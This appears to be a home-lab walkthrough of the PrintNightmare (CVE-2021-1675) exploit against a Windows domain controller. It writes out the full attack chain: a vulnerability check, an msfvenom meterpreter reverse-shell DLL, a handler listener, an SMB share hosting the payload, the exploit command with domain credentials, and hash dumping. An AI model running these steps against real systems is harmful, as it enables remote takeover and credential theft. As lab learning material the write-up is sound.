 # II. PrintNightmare (CVE-2021-1675) Walkthrough

PrintNightmare is a critical security flaw found in the Windows Print Spooler service, which manages print jobs sent to printers. It allows an attacker to execute remote code with system-level privileges on affected machines.

For this, we are going to use the resources found here https://github.com/cube0x0/CVE-2021-1675. 

To check if our DC is vulnerable to this attack:

`rpcdump.py @<DC-IP> | grep 'MS-RPRN|MS-PAR'`

```
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
Protocol: [MS-RPRN]: Print System Remote Protocol
```

If we see the above after hitting `ENTER`, then the DC is vulnerable.

Before running the exploit, we need to install the latest version of impacket:

```bash
pip3 uninstall impacket
git clone https://github.com/cube0x0/impacket
cd impacket
python3 ./setup.py install
```

Once that’s done.

Let’s grab the actual exploit `https://github.com/cube0x0/CVE-2021-1675/blob/main/CVE-2021-1675.py`.  We can copy the actual code, open a text document, paste the code and save it as a python file (Don’t forget to add the `.py` extension).

Next to generate a malicious dll payload:

`mfsvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<KALI-IP> LPORT=4444 -f dll > shell.dll`.

Since, we’re using msfvenom for the payload….

We’ll start up `msfconsole` and `use exploit multi/handler` for the meterpreter session:

`set payload windows/x64/meterpreter/reverse_tcp`

`set LPORT 4444`

`set LHOST <KALI-IP>`

`run`

Now open up a new terminal window, to set up a smbserver using impacket to host the `shell.dll` payload.

`smbserver.py share 'pwd'` (Make sure to run this in the same directory as the payload).

Everything is set up. Time to run the exploit.

`python3 CVE-2021-1675.py <DOMAIN>/<user>:<pass>@<DC-IP>@<DC-IP> '\\<KALI-IP>\share\shell.dll'`

**NOTE: If there’s an error, try running smbserver.py with the `-smb2support` tag.  AND if upon running we get a `ERROR_VIRUS_INFECTED` notification, login into the Domain Controller and disable Windows Defender.**

Back in msfconsole, we should a meterpreter shell. We can do anything now such as using the `hashdump` command to dump the hashes.

**NOTE: Well…This one failed as well, discovered I forgot to disable Windows Updater on all 3 Windows machines**. **Please don’t be like me 🫣.**

## Resources:

cube0x0 RCE - [https://github.com/cube0x0/CVE-2021-1675](https://github.com/cube0x0/CVE-2021-1675)

calebstewart LPE - [https://github.com/calebstewart/CVE-2021-1675](https://github.com/calebstewart/CVE-2021-1675)
